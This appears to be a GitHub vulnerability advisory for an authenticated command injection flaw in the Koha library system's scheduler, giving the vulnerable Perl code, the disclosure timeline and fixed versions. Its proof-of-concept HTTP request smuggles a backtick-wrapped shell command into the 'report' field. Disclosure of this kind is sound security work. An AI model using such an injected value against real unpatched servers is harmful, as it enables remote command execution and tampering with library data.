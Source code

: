 # Koha ILS Command Injection Vulnerability

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-2025-30076 (pending assignment)
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes flawed validation. The code converts the input to an integer to check if a report exists in the database, but then uses the original, unmodified string in the command. This allows an attacker to append shell metacharacters after a valid report ID to inject commands that will be executed on the server.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```http
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on the 19th of February 2025, and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: 19/02/2025
- **Reported**: 19/02/2025
- **Fixed**: 27/02/2025
- **Public disclosure**: 27/02/2025

## Credit

Discovered by Craig Fairman

## References

1. https://bugs.koha-community.org/bugzilla3/show_bug.cgi?id=39170)

